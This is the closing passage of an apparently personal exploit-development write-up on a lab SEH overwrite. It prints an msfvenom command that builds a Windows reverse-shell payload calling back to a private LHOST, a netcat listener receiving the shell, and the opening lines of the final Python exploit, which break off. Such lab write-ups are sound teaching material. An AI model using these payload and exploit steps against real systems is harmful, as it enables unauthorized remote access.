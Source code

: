 After stepping through it, we see that `ESP` is pointed at `018BFF6C` just like we wanted. 

![](/assets/images/CTP/finaladj.JPG)

All that's left to do at this point is generate our reverse shell payload and encode it. I used: 
```terminal_session
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.206 LPORT=443 -f c -b '\x00' BufferRegister=ESP
```

And then fed this shellcode to Slink. There are a few different ways to get only the shellcode out of the Slink output, I used bash for the most part.

I decided to place the final exploit code at the very bottom of this post since it is obnoxiously long. (Shellcode encoded was over 2200 bytes). 

Adding our shellcode to our exploit code nets us our reverse shell! Whoohoo!
```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.206] from (UNKNOWN) [192.168.1.201] 49422
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

## End Game

What a journey that was. To summarize I made a little diagram of what happened at a high level. 

![](/assets/images/CTP/endgame.JPG)

## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I’m super appreciative. Truly mean it.

## Resources
+ [OffSec Alphanumeric Shellcode](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/)
+ [Corelan Mona Tutorial](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
+ [Doyler LTER SEH Overwrite Part 1](https://www.doyler.net/security-not-included/lter-seh-continued)
+ [Doyler LTER SEH Overwrite Part 2](https://www.doyler.net/security-not-included/lter-seh-continued)
+ [VelloSec Carving Shellcode](http://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/)
+ [Slink by @ihack4falafel](https://github.com/ihack4falafel/Slink)

## Final Exploit Code
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
```